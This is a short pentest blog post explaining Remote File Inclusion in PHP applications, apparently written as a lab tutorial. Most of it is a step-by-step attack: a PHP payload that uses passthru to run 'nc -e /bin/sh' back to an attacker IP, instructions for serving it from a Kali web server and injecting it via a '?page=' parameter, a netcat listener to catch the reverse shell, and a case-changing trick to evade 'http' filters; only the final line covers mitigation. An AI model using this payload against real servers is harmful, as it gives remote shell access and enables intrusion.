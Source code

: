 +++
categories = ["Pentest", "Web"]
date = "2021-02-08"
title = "Vulnerability Remote File Inclusion"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++


* It is similar to the local file inclusion.
* Allows for the attacker to read any file at any server. 
* Executes PHP files from other servers in the current server.
* Storage PHP files from other servers as .txt.

For this to work the server under attack must have allow_url_fopen & allow_url_include ON.

1. Launch apache server on kali and create a txt file that contains:
   
``` 
<?php

passthru("nc -e /bin/sh 10.0.2.5 9999");

?>
```
2. Move the file to ``/var/www/html`` and check the server localhost/shellinversa.txt
3. Copy the url but instead of localhost the real ip and paste after ``/?page=``
4. Listen to a connection `` nc -vv -l -p 9999 ``
5. Reload page

If the security is higher you may have to replace the ``http`` with ``hTTp`` or something like that. Because maybe it is filtering by a fixed name.

To avoid this type of vulnerability we only have to set to OFF the allow_url_fopen and allow_url_include.

